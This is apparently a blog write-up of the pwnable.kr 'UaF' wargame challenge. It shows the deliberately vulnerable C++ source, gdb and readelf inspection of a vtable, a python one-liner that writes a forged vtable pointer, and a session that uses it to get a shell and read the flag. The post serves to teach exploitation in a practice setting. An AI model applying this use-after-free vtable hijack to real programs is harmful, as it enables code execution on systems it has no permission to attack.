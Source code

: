 ```yaml
---
layout: post
title:  "UaF - Write-Up [Pwnable.kr]"
date:   2016-07-30 14:30:00 +0200
categories: security wargame pwnable
---
```


[Pwnable.kr](http://pwnable.kr) is a non-commercial wargame site which provides various pwn challenges regarding system exploitation. 

In this blog post I'll write-up how I managed to pass the "UaF" (Use-After-Free) challenge.


### Code

``` cpp
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>

using namespace std;

class Human {
private:
	virtual void give_shell() {
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce() {
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human {
public:
	Man(string name, int age) {
		this->name = name;
		this->age = age;
	}
	virtual void introduce() {
		Human::introduce();
		cout << "I am a nice guy!" << endl;
	}
};

class Woman: public Human {
public:
	Woman(string name, int age) {
		this->name = name;
		this->age = age;
	}
	virtual void introduce() {
		Human::introduce();
		cout << "I am a cute girl!" << endl;
	}
};

int main(int argc, char *argv[]) {
	Human *m = new Man("Jack", 25);
	Human *w = new Woman("Jill", 21);

	size_t len;
	char *data;
	unsigned int op;

	while (1) {
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch (op) {
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;
}
```

### Audit

As we can see, we allocate a `Man` and a `Woman`, than we enter in an infinity loop witch asks for an operation:

- `use` performs a call to the `introduce` method for both objects.
- `after` allocates an arbitrary sized array (the size is passed in `argv[1]`) and reads the content of the passed file (`argv[2]`)  into it.
- `free` performs a `delate` call to the two objects previusly allocated.

As we can easly immagine, if we `free` and then `use` we will get a __Segmentation fault__ because we are trying to dereference the two deallocated objects.
Instead we are going to allocate an object with a crafted vtable pointer in order to point the `introduce` function to `give_shell`.


Now let's debug the binary in order to understeand whats happen at binary level:

```nasm
$ gdb uaf
(gdb)
(gdb) set disassembly-flavor intel
(gdb) set print asm-demangle on
(gdb) disas main
Dump of assembler code for function main:
... (output truncated for brevity) ...
   0x0000000000400f13 <+79>:	call   0x401264 <Man::Man(std::string, int)>
   0x0000000000400f18 <+84>:	mov    QWORD PTR [rbp-0x38],rbx
... (output truncated for brevity) ...
```

At address __0x0000000000400f18__ we can see that we are saving the address of the `Man` object in the stack at `[rbp-0x38]`.

```nasm
(gdb) x/x $rbp-0x38
0x7ffea0a21028:	0x00c65c50
```

So let's see where the `vtable` is (knowing that the `vtable`'s pointer is at the very beginning of our object's memory):

```nasm
(gdb) x/x 0x00c65c50
0xc65c50:	0x00401570
(gdb) x/2g 0x00401570
0x401570 <vtable for Man+16>:	0x000000000040117a      0x00000000004012d2
                                ^Human::give_shell()    ^Man::introduce()
```

Now we can also double check with the `readelf` command:

```nasm
$ readelf uaf -a | grep Man | c++filt 
    57: 00000000004015d0    24 OBJECT  WEAK   DEFAULT   15 typeinfo for Man
    78: 00000000004015c8     5 OBJECT  WEAK   DEFAULT   15 typeinfo name for Man
->  83: 0000000000401560    32 OBJECT  WEAK   DEFAULT   15 vtable for Man
    94: 0000000000401264   109 FUNC    WEAK   DEFAULT   13 Man::Man(std::basic_string<char, std::char_traits<char>, std::allocator<char> >, int)
   100: 0000000000401264   109 FUNC    WEAK   DEFAULT   13 Man::Man(std::basic_string<char, std::char_traits<char>, std::allocator<char> >, int)
-> 110: 00000000004012d2    54 FUNC    WEAK   DEFAULT   13 Man::introduce()
$ readelf uaf -a | grep Human | c++filt 
    59: 0000000000401580    32 OBJECT  WEAK   DEFAULT   15 vtable for Human
    60: 0000000000401192   125 FUNC    WEAK   DEFAULT   13 Human::introduce()
    71: 000000000040123a    41 FUNC    WEAK   DEFAULT   13 Human::~Human()
    73: 00000000004015e8     7 OBJECT  WEAK   DEFAULT   15 typeinfo name for Human
->  85: 000000000040117a    24 FUNC    WEAK   DEFAULT   13 Human::give_shell()
    91: 0000000000401210    41 FUNC    WEAK   DEFAULT   13 Human::Human()
    92: 0000000000401210    41 FUNC    WEAK   DEFAULT   13 Human::Human()
   101: 00000000004015f0    16 OBJECT  WEAK   DEFAULT   15 typeinfo for Human
   118: 000000000040123a    41 FUNC    WEAK   DEFAULT   13 Human::~Human()
```

At this point it's preatty clear what we have to do. We have to allocate some memory with the `after` option, to simulate a real `Man` object but with the `vtable` pointer modified in order to call the `give_shell` function instead of `introduce` when we do the `use` option.

If `0x401570` is the `vtable`'s address and we call `introduce` which is at `0x401578` it means that the call we do is at offset `0x401578`-`0x401570` = __8__. Now we can subtract the offset from the `vtable`'s address to obtain the modified pointer: 

```nasm
(gdb) p/x (0x401570-8)
$1 = 0x401568
```

### Exploit

Now let's see how we can exploit this `UaF`:

```python
python -c 'print ("\x68\x15\x40\x00" + "\x00"*4)' > /tmp/uaf-poc
```

```python
./uaf 8 /tmp/uaf-poc
1. use
2. after
3. free
-> 3
1. use
2. after
3. free
-> 2
your data is allocated
1. use
2. after
3. free
-> 2
your data is allocated
1. use
2. after
3. free
-> 1
$ 
$ cat flag
************
```

### Conclusion

Zero out your pointers when you deallocate memory!
